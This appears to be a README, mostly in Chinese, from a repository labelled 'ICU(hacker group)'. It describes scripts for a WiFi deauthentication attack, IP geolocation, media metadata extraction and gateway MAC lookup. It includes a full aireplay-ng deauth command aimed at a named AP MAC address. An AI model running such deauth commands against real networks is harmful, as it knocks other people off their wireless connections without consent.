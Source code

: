 # ICU(hacker group)
## Deauth Attack
用法
<code>bash 0.sh</code><br>
请在0.sh中自行添加<code>sleep</code><br>
并修改0.c中<code>main</code>函数里的信道<code>b</code><br>
3.py中的<code>addr2</code>和<code>addr3</code><br>
该项目相当于执行<br>
<code>aireplay-ng -0 <int类型> -a 1C:FF:59:33:7F:FF(AP) --ignore-negative-one -D wlan0</code><br>
如果要注释 那么请<code>cat 0.txt</code><br>
## 2.py
用法 <code>python3 2.py <IP地址></code><br>
请到<code>maxmind</code>下载<code>GeoLite2-City.mmdb</code>后运行
## 图像和视频的元数据
用法 <code>python3 1.py</code><br>
Please Allow Camera To Access your location
## 网关MAC地址
用法 
<code>pwsh</code><br>
<code>.\0.ps1</code><br>
<code>python3 0.py</code>
请将0.py中的<code>src</code>修改为<code>.\0.ps1</code>的输出<br>

##### 2024年12月于中华人民共和国浙江省宁波市

